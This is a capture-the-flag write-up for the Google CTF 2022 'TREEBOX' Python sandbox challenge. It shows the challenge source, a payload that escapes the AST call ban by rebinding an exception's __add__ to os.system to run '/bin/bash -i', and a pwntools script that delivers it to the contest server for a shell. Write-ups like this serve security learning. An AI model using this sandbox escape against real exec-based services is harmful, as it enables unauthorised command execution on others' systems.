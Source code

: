 ## TREEBOX
### Attachment
```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
### Description
This challenge belongs to the sandbox category, and uses python and takes arbitrary python script input from the client and verifies the program with the `verify_secure()` function.
```python
...snip...
def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True
...snip...
```
And here we need to pass this function to execute malicious python script to server, and we need to pass 3 walls:
- ast.Import
- ast.ImportFrom
- ast.Call
After some time I found [this](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls) bypass in hacktricks to bypass `call ` and it worked!
```python
# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:__
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
```
class `Klecko()` creates a function that `__add__` something and returns 1, but adds the function `os.system` instead, and triggers it with "try except" and appends "/bin/bash -i" to the function of that class have os.system in it? I assume this class is an intermediary between the os.system function and the string "/bin/bash -i" thus producing a function like `os.system('/bin/bash -i')` without calling the `os.system` funtion. 
### Python Solution
```python
import pwn

payload = '''# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
--END'''
p = pwn.remote('treebox.2022.ctfcompetition.com', 1337)
p.recv(1024)
p.sendline(payload)
p.interactive()
```
I just added it to the payload and here we got the shell :)
### Reference
- https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls